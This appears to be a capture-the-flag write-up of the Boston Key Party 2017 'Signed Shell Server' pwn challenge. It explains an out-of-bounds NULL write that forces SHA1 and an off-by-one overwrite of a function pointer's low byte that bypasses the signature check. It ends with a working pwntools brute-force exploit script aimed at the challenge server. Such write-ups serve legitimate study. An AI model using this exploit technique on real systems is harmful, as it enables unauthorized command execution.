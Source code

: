 ```yaml
---
layout: post
title: "Boston Key Party 2017: Signed Shell Server (pwn 200)"
author: f0rki, creed
categories: writeup
tags: [cat/pwn]
---
```


* **Category:** pwn
* **Points:** 200

## Write-up

You can do two things:

1. Sign a command
2. Execute a signed command

```
Welcome to Secure Signed Shell
1) sign command
2) execute command
>_ 1
what command do you want to sign?
>_ ls
signature:
0fcc9e22ff4cec3f5afbaf5906dba086
```

So we can see that the challenge signs with md5 by default!

## out-of-bounds NULL byte write -- force switch to sha1 

They use a HMAC based on md5 or sha1 depending on a global flag (set based on
argc). We call this `use_md5`. This is a byte sized varialbe that is placed
right behind the `global` buffer, which has size `0x100`. We can overwrite the
`use_md5` flag with a zero byte with the calls:

```c
i = read(global, 0x100, 0); // send exactly 255 bytes
global[i] = 0;              // out of bounds write to the use_md5 flag
```

This snippet of code is repeated in both the `sign_it` and `execute_it`
functions.

## overwrite least significant byte of a function pointer

There is a off-by-one error, which allows us to overwrite the last byte of the
first function pointer. We are targeting the `deny_ptr` in this struct:

```c
struct exec_guy {
    char hash[20];
    void (*deny_ptr)(char*);
    void (*success_ptr)(char*);
}
```

At the start of the `execute_it` function, `exec_guy` will be set to either
`m_exec_guy` or `s_exec_guy` depending on whether md5 or sha1 is used. If the
`use_md5` flag is true, the `exec_guy` is set to 
`s_exec_guy + 1 == m_exec_guy`. If we switch to using SHA1 afterwards, the HMAC
is copied to `exec_guy`, which is actually `s_exec_guy + 1`. So there is one
byte too less available for a full SHA1 HMAC and it will overflow into the
first byte of the `deny_ptr` field.

Since we're on little endian, this means we can control the least significant
byte of the function pointer. If we change the `deny_ptr` to the `success_ptr`
we effectively bypass the signature check.

```
[0x004010a0]> afl~command
0x00400d36    1 0    -> 37   sym.deny_command
0x00400d5b    1 0    -> 27   sym.exec_command
```

So we have to find a HMAC, whose last byte is `0x5b`. So first we checked
whether one of the HMACs we could legitimately obtain would fit our purposes.
We can do this by switching to SHA1 with an overlong command in the `sign_it`
function and then obtain the HMACs:

```
[*] 'ls' -> '4b0eef0a2c6a48fd0f52460231fe61bbfa8f314c' --> 0x400d4c     <-- printf something
[*] 'pwd' -> 'bf34cf2a14f5bbde6c75da9c6ba421fd57772d68' --> 0x400d68    <-- this jumps inside the right function at least, but seems to break
[*] 'id' -> 'e1b428253b9c847348c522e27d00a151f7db9458' --> 0x400d58     <-- nop; leave;ret
[*] 'whoami' -> 'ce6bd6b5229cf202a96ece2b36763e1adec566d1' --> 0x400dd1 <-- somewhere inside init_key
```

So none of those did work out in the end. The `pwd` HMAC looked pretty
promising as it triggers a jump into the `exec_command` function. But then crap
is loaded into the registers and it fails.

To use one of these commands we need to still send an overlong line, with
contents are not hashed. The HMAC covers only up to the first NULL byte, so we
can send for example:

```python
"ls\n" + "\x00" * 253
```

This allows us to trigger the overflow, with a known HMAC.

## exploit recap

0. Call `execute_it`
1. First `exec_guy` is set to `m_exec_guy`, because `use_md5` is true.
2. Use off-by-one error to overwrite the `use_md5` flag with 0, so that SHA1 
   will be used. `exec_guy` is still set to `m_exec_guy`.
3. `memcpy` call at `0x00401261` will then overwrite the least significant 
   byte of the first function pointer.
    - The `src` of `memcpy` is the computed SHA1 HMAC
    - We need to find a HMAC which ends in `0x5b`
4. The function pointers are always loaded relative to the `m_exec_guy` so we 
   can use them safely even if we switched to SHA1
5. shell? shell! (or just cat flag)

In the end we just opted to bruteforce, until we hit a byte that worked. We
tried with a bunch of commands:

```sh
cat flag; echo <random stuff>
```

Eventually we got a working byte and the flag.

```python
from pwn import *  # noqa
import string
import random 

velf = ELF("./sss")
# this is the byte we'd need...
last_byte = velf.symbols['exec_command'] & 0xff
log.info("last byte of exec_command 0x{:x}".format(last_byte))

env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libcrypto.so.1.0.0")}

def make_vp():
    #return process("./sss_dealarmed", env=env)
    return remote("54.202.7.144", 9875)

# less verbosity for pwntools
context.log_level = "error"
while True:
    cmd = "cat flag; echo " + "".join(random.sample(string.letters, 5))
    vp = make_vp()
    # gdb.attach(vp, gdbscript)

    try:
        # now overflow into the use_md5 flag
        # which triggers a buffer overflow into the fptr
        vp.recvuntil(">_")
        vp.sendline("2")
        vp.recvuntil(">_")
        c = "{}\n\x00".format(cmd)
        c += "\x00" * (256 - len(c))
        vp.send(c)
        vp.recvuntil(">_")
        vp.sendline("wurscht")
        line = vp.recvrepeat(timeout=0.5)
        log.info("got line: " + repr(line))

    except:
        pass
    
    vp.close()
```
